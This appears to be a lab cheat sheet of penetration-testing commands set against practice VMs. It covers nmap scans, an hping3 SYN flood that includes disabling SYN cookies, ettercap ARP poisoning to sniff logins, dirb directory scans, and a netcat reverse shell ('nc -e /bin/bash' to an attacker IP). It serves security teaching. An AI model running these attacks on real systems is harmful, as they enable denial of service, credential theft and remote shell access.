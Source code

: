 ### nmap Common commands

```
nmap <ip-address or ip-range>
nmap <hostname>
nmap -p <port number or range> <ip-address>
nmap -sS <ip-address>
nmap -sT <ip-address>
nmap -sU <ip-address>
nmap -sP <ip-address>
nmap -O -v <ip-address>
nmap -sV -O -v <ip-address>
nmap -A <ip-address>
```

### SYN Flood/DoS

1. Start your kali VM and login.
2. Note IP address of kali VM.   
3. Start Victim1 VM.   
4. Note IP address of SEEDUbuntu1 VM.  
5. Start wire shark on SEEDUbuntu1 VM. 
6. Switch to kali VM. 
7. On command prompt type following command: `nmap [IP of Victim1]` 
8. Note open port of Victim1   
9. On command prompt type the following command `hping3 –S [target IP Addr] –a [src IP Addr] –p [open port no.] --flood` 
10. After sometime stop SYN flooding. 
11. Switch to Victim1 
12. Stop wireshark. 
13. Set filter in wireshark to IP addr of kali VM.
14. Observe large number of SYN packets. 
15. If your attack seems unsuccessful, one thing that you can investigate is whether the SYN cookie mechanism is turned on. SYN cookie is a defense mechanism to counter the SYN flooding attack. The mechanism will kick in if the machine detects that it is under the SYN flooding attack. You can use the sysctl command to turn on/off the SYN cookie mechanism:

```
a. # sysctl -a | grep cookie (Display the SYN cookie flag) 
b. # sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie) 
c. # sysctl -w net.ipv4.tcp_syncookies=1 (turn on SYN cookie)
```

### ARP Poisoning

1. Start and login in Kali VM, Victim1 VM and Victim2 VM. 
2. Note IP address of each VM and test connectivity using ping. 
3. Switch to Kali VM 
4. Note connected interface (eth0, eth1 or wlan0 etc.) 
5. Go to application →sniffing and spoofing → ettercap. 
6. Select unified sniffing and interface. 
7. Click host → scan for hosts. 
8. Click host → Hosts list 
9. Select Victim1 and click Add to target 1 
10. Select Victim2 and click Add to target 2 
11. Start wireshark on all three VMs
12. On ettercap, Click Mitm →ARP poisoning

**TO CHECK IF IT WORKED:**

a. Switch to Victim1 VM 
b. Connect to any website which requires login. 
c. Type UN and PW. 
d. telnet to Victim2 VM 
e. Switch to Kali VM and view the capture in wireshark 

### Netcat Reverse Shell

##### On victim machine

```
nc -e /bin/bash <attacking ip> <port>
```

Note : /bin/bash can be replaced with path to another shell

##### On attacking machine : 

```
nc -lvnp <port>
```

### Dirb

Scan the web server `(http://192.168.1.224/)` for directories using a dictionary file `(/usr/share/wordlists/dirb/common.txt)`:

`dirb http://192.168.1.224/ /usr/share/wordlists/dirb/common.txt`

Finding files with speciifc extensions : 

`dirb http://192.168.1.186:8080/ -X .php,.zip`

`-X` searched for files with following extensions (.php & .zip in this case)
